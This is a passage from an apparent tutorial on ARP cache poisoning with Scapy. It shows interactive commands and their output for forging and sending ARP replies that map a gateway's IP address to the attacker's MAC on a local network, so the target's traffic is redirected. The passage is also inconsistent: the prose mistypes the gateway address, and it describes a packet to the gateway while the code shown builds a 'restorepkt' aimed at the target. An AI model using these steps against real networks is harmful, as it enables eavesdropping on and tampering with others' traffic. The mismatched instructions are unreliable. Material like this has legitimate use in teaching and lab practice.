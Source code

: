```
Received 1 packets, got 1 answers, remaining 0 packets
>>>
```
```
>>> received[0][0][1].hwsrc                                                                                                                                           
'22:bf:ca:6f:90:e0'
>>>
```
Step 2: Sending false ARP response packets to both the target and the gateway.

The false ARP response to the target will contain the pdst= ‘192.168.43.63’ hwdst= ‘08:25:25:5c:9d:51' and psrc= ‘192.168.43.1’. By default, this packet would have the attacker’s MAC address. Thus when the target gets the packet it updates its ARP table with rogue MAC address associated with the gateway’s IP address. To ensure that our poisoning is not cured, we will have to continuously send the ARP responses, which will be done in the python script.

```
>>> arpspoofd=ARP(op=2, psrc="192.168.43.1", pdst="192.168.43.63", hwdst="08:25:25:5c:9d:51")  
>>> arpspoofd.show()                                                                                                                                                  
###[ ARP ]### 
  hwtype= 0x1
  ptype= IPv4
  hwlen= None
  plen= None
  op= is-at
  hwsrc= 08:00:27:23:ff:90
  psrc= 192.168.43.1
  hwdst= 08:25:25:5c:9d:51
  pdst= 192.168.43.63

>>> 
```

```
>>> send(arpspoofd)                                                                                                                                                   
.
Sent 1 packets.
>>>
```
Similarly craft a packet for the gateway ( 192.165.43.1, 84:fd:d1:14:a6:9f ) by spoofing the psrc as “192.168.43.63”.

```
>>> restorepkt=ARP(op=2, psrc="192.168.43.1", hwsrc="84:fd:d1:14:a6:9f", pdst="192.168.43.63", hwdst="08:25:25:5c:9d:51")
>>> restorepkt.show()                                                                                                                                                 
###[ ARP ]### 
  hwtype= 0x1
  ptype= IPv4
  hwlen= None
  plen= None
  op= is-at
  hwsrc= 84:fd:d1:14:a6:9f
  psrc= 192.168.43.1
  hwdst= 08:25:25:5c:9d:51
  pdst= 192.168.43.63

>>>
```
